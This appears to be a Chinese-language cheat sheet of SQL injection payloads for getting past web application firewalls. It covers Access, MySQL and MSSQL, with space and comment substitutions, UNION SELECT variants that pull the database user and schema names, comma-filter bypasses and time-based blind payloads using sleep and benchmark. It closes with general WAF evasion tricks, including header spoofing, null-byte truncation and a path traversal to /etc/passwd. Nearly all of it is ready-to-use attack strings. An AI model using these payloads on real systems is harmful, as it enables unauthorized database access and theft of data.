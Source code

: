 #### Access
	空格符
	%09、%0a、%0c、%0d、%16
#### Mysql
	注释符
	#、/*...*/、--[空格] ...
	空格符
	[0x09,0x0a-0x0d,0x20,0xa0]
	特殊符号
	%a 换行符，可结合注释符使用%23%0a，%2d%2d%0a。
	%21  ！ 叹号
	%2b  +  加号
	%2d  -  减号
	%40  @  符号
	%7e   ~  波浪号
	Id=1 union select(1),user()
	Id=1 union /!12345select/1,user()
	Id=1 union select@1,user()
	Id=1 union select {x 1},user()
	Id=1 union select"1",user()
	Id=1 union select\N,user()
	Id=1 union select 1,user()`
	Id=1 union select 1,user()""
	Id=1 union select 1,user()A
	Id=1 union select 1,user()`b
	Id=1 union(select 1,(select/!schema_name/from information_schema.SCHEMATA limit 1,1))
	Id=1 union(select 1,(select{x schema_name}from information_schema.SCHEMATA limit 1,1))
	Id=1 union(select 1,(select(schema_name)from information_schema.SCHEMATA limit 1,1))
	浮点数
	Id= 1.0union select 1,user()
	Id= 1.union select 1,user()
	Id= 1E0union select 1,user()
	Id=\Nunion select 1,user()
	Id=1 unionselect user(),2.0from admin
	Id=1 union select user(),8e0from admin
	Id=1 union select user(),\Nfrom admin
	内联注释
	/*!UnIon12345SelEcT*/ 1,user()   //数字范围 1000-50540
	mysql黑魔法
	select{x username}from {x11 test.admin};
	函数
	截取
	Mid(version(),1,1)
	Substr(version(),1,1)
	Substring(version(),1,1)
	Lpad(version(),1,1)
	Rpad(version(),1,1)
	Left(version(),1)
	reverse(right(reverse(version()),1)) 
	连接
	concat(version(),'|',user());
	concat_ws('|',1,2,3)
	字符转换
	Ascii() Char() Hex() Unhex()
	过滤逗号
	127' UNION SELECT * FROM ((SELECT1)a JOIN (SELECT2)b JOIN (SELECT3)c JOIN (SELECT4)d JOIN (SELECT5)e)# 
	相当于 union select 1,2,3,4,5
	union select * from (select 1)a join(select{x schema_name} from information_schema.SCHEMATA limit 1,1)b
	limit 1 offset 0相当于limit 1,0
	mid(version() from 1 for 1)相当于Mid(version(),1,1)
	<>被过滤
	id=1 and ascii(substr(database(),0,1))>64
	比较符
	greatest(n1,n2,n3,等)函数返回输入参数(n1,n2,n3,等)的最大值
	id=1 and greatest(ascii(substr(database(),0,1)),64)=64
	函数构造
	sleep(5)/benchmark(10000000,SHA1(1))
	id=1 xor sleep%23%0a(5)
	id=1 xor sleep%2d%2d%0a(5)
	id=1 xor sleep([%20]5) 
	id=1 xor benchmark%0a(10000000,SHA1(1))
	id=1 xor sleep[空白字符](5)
	select{x[可填充字符]1}
#### MSSQL
	注释符
	/*、--、;00%、/**/
	空格符
	[0x01-0x20][0x0a-0x0f][0x1a-0x-1f]
	特殊符号
	%3a 冒号
	id=1 union:select 1,2 from:admin
	id=1 union select+1,'2',db_name() from admin
	id=1 union select-1,'2',db_name() from admin
	id=1 union select.1,'2',db_name() from admin
	id=1 union select:1,'2',db_name() from admin
	id=1 union select~1,'2',db_name() from admin
	id=1%20union%20select%201,'2',db_name()%80from%20admin
	id=1 union select 1,'2',db_name+() from admin
	函数变形: db_name[空白字符]()
	浮点数
	id=1.1union select 1,'2',db_name()
	id=1e0union select 1,'2',db_name()
	运算符
	id=1-1union select '1',system_user,3 from admin
	id=1e-union select '1',system_user,3 from admin
	字符串截取函数
	Substring(@@version,1,1)
	Left(@@version,1)
	Right(@@version,1)
	charindex('test',db_name())
	字符串转换函数
	Ascii('a')=char(97) 括号之间可添加空格
#### WAF
	同时提交GET和POST
	访问HTTP绕过对HTTPS的防护
	%00截断
	参数填充垃圾数据，缓冲区溢出
	X-FORWARDED-FOR伪造绕过
	静态文件/sql.php/1.js?id=1绕过
	白名单绕过，URL只要存在某字符就不会拦截
	/sql.php/admin.php?id=1
	/sql.php?a=/manage/&b=../etc/passwd
	/../../../manage/../sql.asp?id=2
	伪造User-agent绕过，可改为爬虫agent